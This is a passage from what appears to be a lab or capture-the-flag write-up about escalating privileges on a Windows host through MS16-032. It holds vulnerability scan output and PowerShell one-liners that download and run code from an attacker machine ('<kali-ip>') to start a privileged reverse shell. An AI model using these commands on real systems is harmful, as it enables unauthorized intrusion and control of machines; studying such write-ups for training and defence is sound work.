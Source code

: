 ```
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable

```

```
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
```

Unfortunately, scripts written for `MS16-032` usually require interactivity and we don't have an interactive terminal. The exploit involves GUI elements. However, Empire has a pre-packed script for just this occasion!

You can read about `Invoke-MS16032.ps1` via InfosecMatter [here](https://www.infosecmatter.com/empire-module-library/?mod=powershell/privesc/ms16-032). In short, this is a race-condition vulnerability, which means that a) the remote host must utilize 2+ CPU cores and b) the exploit may occasionally unexpectedly fail. More information on MS16-032 can be found via Google's Project Zero: https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html

We copy the exploit to our local directory with:
```
cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/Invoke-MS16032.ps1 .
```

...and add the function call to the end of the script:
```
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://<kali-ip>:8000/shell.ps1')"
```
This calls a copy of our previous `Invoke-PowerShellTcp.ps1` reverse shell script, which will be executed with privileged permissions due to the MS16-032 vulnerability.

After setting up a quick python server, we are then ready to download and execute the exploitation script via PowerShell on the remote host:
```
IEX(New-Object Net.WebClient).downloadString('http://<kali-ip>:8000/Invoke-MS16032.ps1')
```
